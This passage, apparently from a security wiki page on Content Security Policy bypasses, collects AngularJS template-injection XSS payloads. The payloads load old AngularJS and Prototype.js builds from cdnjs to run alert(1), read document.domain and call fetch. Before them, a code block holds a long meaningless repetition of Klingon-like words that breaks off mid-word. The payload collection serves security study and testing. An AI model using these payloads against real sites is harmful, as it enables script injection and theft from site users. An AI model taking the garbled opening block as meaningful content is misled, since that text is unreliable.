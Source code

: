 ```
Itlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vIt
```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
</script>
<img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
#### Payloads using Angular + a library with functions that return the `window` object ([check out this post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

{% hint style="info" %}
The post shows that you could **load** all **libraries** from `cdn.cloudflare.com` (or any other allowed JS libraries repo), execute all added functions from each library, and check **which functions from which libraries return the `window` object**.
{% endhint %}
```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
{{$on.curry.call().alert(1)}}
{{[].empty.call().alert([].empty.call().document.domain)}}
{{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
```